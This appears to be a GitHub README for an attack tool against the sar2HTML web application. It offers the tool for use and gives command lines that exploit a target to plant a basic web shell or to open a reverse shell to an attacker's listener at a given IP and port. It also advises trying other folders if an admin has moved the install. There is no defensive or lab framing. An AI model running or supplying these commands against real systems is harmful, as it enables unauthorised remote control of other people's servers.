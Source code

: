 # sar2THML
Reverse Shell for sar2HTML (Basic web and reverse)

# Details

You can use the old exploit if not try a new folder (admin may have moved the install directory)

![Old Exploit](https://www.exploit-db.com/exploits/47204)


# Usage: ./sar2HTML -ip HOST IP -rip IP:PORT -pe folder

# Exmaples:

./sar2HTML -ip 192.168.1.81 -rip 192.168.1.22:9999 -pe sar2HTML (Reverse Shell)

./sar2HTML -ip 192.168.1.81 (Baisc Web Shell)

Basic check

![](assets/notvuln.png)

WebShell

![](assets/webshell.png)

ReverseShell

![](assets/shell.png)

